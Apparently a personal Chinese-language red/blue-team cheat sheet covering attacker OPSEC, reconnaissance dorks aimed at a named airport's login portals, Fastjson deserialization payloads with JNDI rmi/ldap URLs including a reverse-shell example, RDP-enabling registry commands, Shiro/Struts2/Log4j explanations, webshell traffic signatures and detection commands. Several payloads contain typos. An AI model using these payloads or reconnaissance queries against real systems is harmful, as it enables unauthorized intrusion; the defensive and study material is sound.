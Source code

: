 红队打点前准备

1.环境安装在虚拟机中，不要留有个人的相关信息

2.虚拟机和物理机隔断，虚拟机走代理上网，物理机断网

3.使用无痕模式浏览器，安装jsonp请求插件

4.动态IP代理池

5.从目标机器上下载文件放到断网虚拟机中

6.每日重置攻击环境



日志分析之IIS

打开IIS日志，win+R运行打开inetmgr

IIS日志不会记录POST的请求的内容，因为被默认为不安全的请求类型。

如果你想开启记录请求体的内容，则开启asp.net的request.querystring集合



Weblogic防御

禁用T3协议和IIOP协议，大多数漏洞都是基于这两个协议触发的。



命令

lsof -i :端口号	#查看占用端口的进程PID

ps aux | grep "进程PID"	#查看进程服务信息

awk -F: '{if($3==0) print $1}' /etc/passwd	#查看ID=0的有root权限的用户

cat etc/passwd | /grep /bin/bash	#查看可以登录ssh的用户

last 		#显示最近登录用户，会显示登录源ip

cat /var/log/secure 	#查看日志，记录的是与系统安全相关的事件，例如SSH登录尝试、sudo命令使用等



高效信息收集打点

组织架构收集：目标单位官网收集，例如总部部门及相关机构，分部，省公司，分公司，直属单位等等。天眼查子公司，控股公司等等。了解你的目标，以及目标所属行业，不同行业打法不同。

fofa快速找登录口

“大兴机场"&country="CN"&&region!="HK"&&region!="TW"&&region!="MO"&&(title="登录"‖title="系统"‖title-="后台"‖title="平台"‖tite="管理"‖title-="入口")

(title="登录" || title="系统" || title="后台" || title="平台" || title="管理" || title="入口") && country!="CN"

“大兴机场”&&(app="泛微-协同办公OA"‖app="用友-GRP.U8"‖app="用友-U8"‖app="用友-UFIDA-NC"‖app="致远互联-OA"‖app="TDXK-通达OA"‖app="Landray-OA系统“）



谷歌hack语法
查找后台地址：site:域名 inurl:login|admin|manage memberladmin_loginllogin_admin|system|login|user main|cms
查找文本内容：site:域名 intext:管理|后台|登陆|用户名|密码|验证码|系统帐号ladmin|login|sys|managetem|password|username
查找可注入点：site:域名 inurl:aspx| jsp | php| asp
查找上传漏洞：site:域名 inurl:file|load|editor|Files
找eweb编辑器：site:域名 inurl:ewebeditor | editor | uploadfile | eweb | edit
存在的数据库：site:域名 filetype:mdb | asp|#
查看脚本类型：site:域名 filetype:asp |aspx |php |jsp
迂回策略入侵：inurl:cms/data/templates/images/index/



fastjson漏洞（java组件）

fastjsonPOC合集：[safe6Sec/Fastjson: Fastjson姿势技巧集合 (github.com)](https://github.com/safe6Sec/Fastjson)

POC

content-type:applocation/json

```null
[
	{
		"a":"a\x]
#字符dos攻击,延迟类型的payload，服务器响应出错或者明显变慢就是fastjson
```

```
{"@type":"java.net.InetAddress","val":"dnslog"}
# fastjson<1.2.48 ,DNS类payload，原生域名解析dnslog,适用范围广
```

```
{"name":"sec" ; {"@type":"java.lang.AutoCloseable" ; "a" ; a
#报错类payload,畸形的json,想确定fastjson版本就用这类
```

EXP(<=1.2.24)结合JNDIExploit1.4

```
{"@type":"com.sun.rowsetJdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/badClassName","autoCommit":true}

{"@type":"com.alibaba.fastison.JSONObject",{"@type":"com.sun.rowset.JdbcRowSetlmpl","dataSourceName":"rmi://127.0.0.1:8088/badClassName","autoCommit":true"}}

#url可以填rmi或者ldap,rmi-->http ladp-->ldap,查看JNDIExploit1.4的使用帮助，构造url进行命令执行或者反弹shell如:ldap://127.0.0.1:1389/Basic/ReverseShell/127.0.0.1/9999
```

当payload不管用时，可尝试以下方法重新构造payload

![image-20240522205455676](C:\Users\Yitai\AppData\Roaming\Typora\typora-user-images\image-20240522205455676.png)



fastjson<1.2.47

```
{
"a":{
	"@type":"java.lang.Class",
	"val":"com.sun.rowset.JdbcRowSetImpl"
	},
"br":{
	"@type":"com.sun.rowset.JdbcRowSetImpl",
	"dataSourceName":"ldap://localhost:808/badNameclass",
	"autoCommit":true
 	}
}
```

fastjson高版本

版本>=1.2.48，默认关闭Autotype功能，启动黑白名单防护

![image-20240522211853168](C:\Users\Yitai\AppData\Roaming\Typora\typora-user-images\image-20240522211853168.png)



windows文件下载命令

certutil

启用3389端口桌面连接命令

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

关闭3389桌面连接

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000001 /f

查询远程桌面连接的端口号

REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\winStations\RDP-Tcp" /V PortNumber

3389的16进制-->0xd3d

3389连不上原因
1.3389端口号修改了
2.3389没开
3.有些用户没有rdp权限



Apache Shiro框架提供了记住我的功能（RememberMe），用户登陆成功后会生成经过加密并编码的cookie，在服务端接收cookie值后，Base64解码–>AES解密–>反序列化。攻击者只要找到AES加密的密钥，就可以构造一个恶意对象，对其进行序列化–>AES加密–>Base64编码，然后将其作为cookie的rememberMe字段发送，Shiro将rememberMe进行解密并且反序列化，最终造成反序列化漏洞。

Struts 2 使用 Object-Graph Navigation Language（OGNL）作为其默认的表达式语言，用于在视图和控制器之间进行数据交换。攻击者可以构造恶意的OGNL表达式，通过Web请求传递到Struts 2框架中。

 Apache log4j2-RCE 漏洞是由于Log4j2提供的lookup功能下的Jndi ==Lookup==模块出现问题所导致的，==该功能模块在输出日志信息时允许开发人员通过相应的协议去请求远程主机上的资源。而开发人员在处理数据时，并没有对用户输入的信息进行判断，导致Log4j2请求远程主机上的含有恶意代码的资源 并执行其中的代码，从而造成远程代码执行漏洞。



蚁剑流量特征

漏洞参数pass的开头为@ini_set("display_errors", "0")

如：pass=@ini_set("display_errors", "0")xxxxxxxxxxxxx



冰蝎流量特征

固定的请求头和响应头

请求字节头：

dFAXQV1LORcHRQtLRlwMAhwFTAg/M

响应字节头：

TxcWR1NNExZAD0ZaAWMIPAZjH1BFBFtHThcJSlUXWEd



WebShell检测与查杀

在线检测：[阿里云恶意文件检测平台 - 首页 (aliyun.com)](https://ti.aliyun.com/#/overview)、[SHELLPUB.COM在线查杀](https://n.shellpub.com/)河马在线查杀

查杀：[http://www.d99net.net﻿](http://www.d99net.net/) D盾（只支持W）

[https://www.shellpub.com](https://www.shellpub.com/) 河马（支持W、L、M）



##### windows和linux查找天内被修改的.jsp文件

power shell

Get-ChildItem -Path "C:\phpStudy\PHPTutorial\WWW\DVWA" -Recurse -Filter "*.php" | Where-Object { $_.LastWriteTime -ge (Get-Date).AddDays(-1) }

linux

find /path/to/your/webapp -name "*.jsp" -mtime -1



##### windows和linux查找一天内被访问过的.jsp文件

Get-ChildItem -Path "C:\phpStudy\PHPTutorial\WWW\DVWA" -Recurse -Filter "*.jsp" | Where-Object { $_.LastAccessTime -ge (Get-Date).AddDays(-1) }



find /path/to/your/webapp -name "*.jsp" -atime -1



java内存马查杀工具

[c0ny1/java-memshell-scanner: 通过jsp脚本扫描java web Filter/Servlet型内存马 (github.com)](https://github.com/c0ny1/java-memshell-scanner)
